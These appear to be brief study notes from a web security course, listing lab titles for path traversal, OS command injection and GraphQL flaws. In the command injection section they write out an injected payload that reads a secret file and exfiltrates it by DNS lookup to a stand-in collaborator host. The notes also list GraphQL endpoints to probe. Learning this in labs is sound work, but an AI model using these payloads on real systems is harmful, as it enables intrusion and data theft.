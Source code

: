 Tip: We try path traversal techniques and command injection techniques against the available image's parameters.
### * Path Traversal
   - File path traversal, simple case

   - File path traversal, traversal sequences blocked with absolute path bypass

   - File path traversal, traversal sequences stripped non-recursively

   - File path traversal, traversal sequences stripped with superfluous URL-decode

   - File path traversal, validation of start of path

   - File path traversal, validation of file extension with null byte bypass


### * Command Injection
   - Blind OS command injection with time delays

   - Blind OS command injection with output redirection

   - Blind OS command injection with out-of-band interaction

   - **_Blind OS command injection with out-of-band data exfiltration_**

     Tip: In this lab we used this command to interact with the collabrater
     ```
      x||nslookup+<collaborator>|| 
     ```
     We could use this payload to read a file.
     ```
     1||nslookup+$(cat+/home/carlos/secret).<collaborator>%26

## **_GraphQL Vulnerabilities_**
##   Common endpoint names

/graphql
/api
/api/graphql
/graphql/api
/graphql/graphql


##   Universal queries

query{__typename}


   - Accidental exposure of private GraphQL fields

   - Finding a hidden GraphQL endpoint

   - Bypassing GraphQL brute force protections

   - Performing CSRF exploits over GraphQL
